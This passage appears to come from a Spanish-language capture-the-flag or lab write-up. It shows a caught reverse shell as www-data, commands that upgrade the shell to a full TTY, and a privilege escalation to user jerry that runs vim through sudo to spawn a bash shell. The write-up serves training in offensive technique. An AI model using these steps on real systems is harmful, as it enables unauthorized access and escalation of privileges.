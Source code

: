```
listening on [any] 7777 ...
connect to [192.168.60.128] from (UNKNOWN) [172.17.0.2] 53930
whoami
www-data
```

Veremos que somos el usuario `www-data`, por lo que santizaremos la shell.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user jerry

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for www-data on b75fcc146213:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on b75fcc146213:
    (jerry) NOPASSWD: /usr/bin/vim
```

Veremos que podemos ejecutar el binario `vim` como el usuario `jerry`, por lo que haremos lo siguiente:

```shell
sudo -u jerry vim -c ':!/bin/bash'
```

Info:

```
jerry@b75fcc146213:/var/www/html/uploads$ whoami
jerry
```

Y con esto veremos que seremos el usuario `jerry`.
